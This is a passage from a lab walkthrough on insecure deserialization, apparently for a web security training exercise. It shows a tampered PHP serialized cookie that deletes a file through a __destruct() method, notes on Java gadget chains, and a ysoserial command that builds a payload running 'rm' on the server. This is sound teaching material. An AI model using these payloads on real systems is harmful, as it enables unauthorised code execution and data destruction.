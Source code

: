         function __destruct() {
            // Carlos thought this would be a good idea
            if (file_exists($this->lock_file_path)) {
                unlink($this->lock_file_path);
            }
        }
    }

    ?>

This shows that we can exploit the `CustomTemplate` class to call the magic method `__destruct()` to delete a specified file which will be called automatically.
Decode the cookie value with Base64. Got this serialized string:  

    O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"mjyl9cmlcdq0fofxrciwi06ti0hrmlyc";}

Change it to call the `CustomTemplate` class with the file we want to delete as the value for `lock_file_path`:

    O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}

Use this cookie (Base64 and URL encode it) along with any request to delete the specified file.

### LAB: Exploiting Java deserialization with Apache Commons
> Note: A "gadget" is a snippet of code that exists in the application that can help an attacker to achieve a particular goal. The attacker's goal might simply be to invoke a method that will pass their input into another gadget. By chaining multiple gadgets together in this way, an attacker can potentially pass their input into a dangerous "sink gadget", where it can cause maximum damage. You can use the following ones to help you quickly detect insecure deserialization on virtually any server: 
> - The URLDNS chain triggers a DNS lookup for a supplied URL. Most importantly, it does not rely on the target application using a specific vulnerable library and works in any known Java version. If you spot a serialized object in the traffic, you can try using this gadget chain to generate an object that triggers a DNS interaction with the Burp Collaborator server. If it does, you can be sure that deserialization occurred on your target.
> - JRMPClient: it causes the server to try establishing a TCP connection to the supplied IP address. Note that you need to provide a raw IP address rather than a hostname. This chain may be useful in environments where all outbound traffic is firewalled, including DNS lookups. You can try generating payloads with two different IP addresses: a local one and a firewalled, external one. If the application responds immediately for a payload with a local address, but hangs for a payload with an external address, causing a delay in the response, this indicates that the gadget chain worked because the server tried to connect to the firewalled address. In this case, the subtle time difference in responses can help you to detect whether deserialization occurs on the server, even in blind cases.

Use `ysoserial` to generate a payload that could exploit this vulnerability.
First download the `ysoserial-all.jar` from Github. 
Use this command to generate a Base64 encoded payload with new line characters removed:

    java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0
